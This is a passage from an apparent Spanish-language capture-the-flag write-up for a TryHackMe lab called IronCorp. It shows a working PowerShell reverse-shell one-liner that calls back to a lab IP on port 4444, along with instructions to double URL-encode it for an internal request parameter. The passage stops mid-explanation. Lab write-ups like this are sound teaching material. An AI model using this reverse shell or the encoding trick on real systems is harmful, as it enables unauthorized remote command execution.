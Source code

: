 Parece que el usuario es llamado "Equinox".
Sabiendo esto podríamos pensar que está ejecuntando alguna comprobación para saber el usuario y, al ser el usuario que nos muestra diferente al que hemos utilizado para autenticanos podemos deducir que el lugar o servicio donde está comprobando no es el mismo en el que nos encontramos.

¿Quizás es ejecutado a nivel de sistema?

![alt text](/assets/img/posts/ironcorp-thm/image-10.png)

Eso parece.


# Ganando acceso

Ahora que sabemos que la barra de busqueda realmente está siendo ejecutada como un usuario en el servidor, no queda otra que crearnos una shell en el sistema.

Para esto hay varias formas pero aquí vamos a hacerlo en un solo paso.

EL one-liner que vamos a utilizar es el siguiente:

```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.17.92',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
> Esto hay que encodearlo 2 veces debido a que el comando que se está ejecutando es un comando de PowerShell.
{: .prompt-info }

- Primera codificación:

   - Era necesaria para los caracteres especiales en el payload inicial (|, espacios, etc.)
   - Por ejemplo: `|` se convierte en `%7C`

- Segunda codificación:

   - El servidor hacía una petición interna usando el parámetro `r=`
   - El `%` de la primera codificación necesitaba ser codificado de nuevo
   - Por ejemplo: `%7C` se convertía en `%257C`

- La razón técnica es:
